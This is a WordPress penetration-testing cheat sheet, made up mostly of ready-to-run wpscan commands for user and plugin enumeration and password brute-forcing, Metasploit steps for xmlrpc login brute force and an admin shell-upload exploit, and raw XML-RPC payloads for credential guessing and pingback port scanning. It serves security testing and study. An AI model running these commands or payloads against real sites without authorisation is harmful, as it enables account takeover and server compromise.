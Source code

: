 # 🐴 wordpress pentesting

## Wordpress Pentesting

### Enumeration

#### Wpscan

```
# Help menu
wpscan -h

# Non intrusive scan
wpscan --url <target-url>

# Plugins enumeration
wpscan --url www.example.com --enumerate p

# Users enumeration
wpscan --url www.example.com --enumerate u
```

### Brute Force Attack

```
# Bruteforce users found using 50 threads
wpscan --url www.example.com --wordlist darkc0de.lst --threads 50

# Bruteforce on one user
wpscan --url www.example.com --wordlist darkc0de.lst --username admin

# Xmlrpc attack
wpscan --password-attack xmlrpc -U admin -P <password-wordlist> --url <target-url> 
```

### Metasploit

#### xmlrpc

```
# Start Metasploit
msfconsole

# Search wordpress modules
search type:auxiliary wordpress

# Use xmlrpc module
use auxiliary/scanner/http/wordpress_xmlrpc_login

# Show options
show options

# Run
run
```

### Shell Upload

```
# Start Metasploit
msfconsole

# Search for shell_upload module
search shell_upload

# Use module
use exploit/unix/webapp/wp_admin_shell_upload

# Show the available options
show options

# Run
run
```

### XML-RPC Attack

#### xmlrpc.php

```
http://<targetWebSite.com>/<wordpress directory>/xmlrpc.php
```

#### Send a POST request and list all the available methods

```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

#### Bruteforce login

```
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```

#### XSPA or simply port scanning

**pingback.ping**

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

## References

* [Cheatsheet](https://cheatsheet.haax.fr/web-pentest/content-management-system-cms/wordpress/)
* [XML-RPC Attack](https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32)
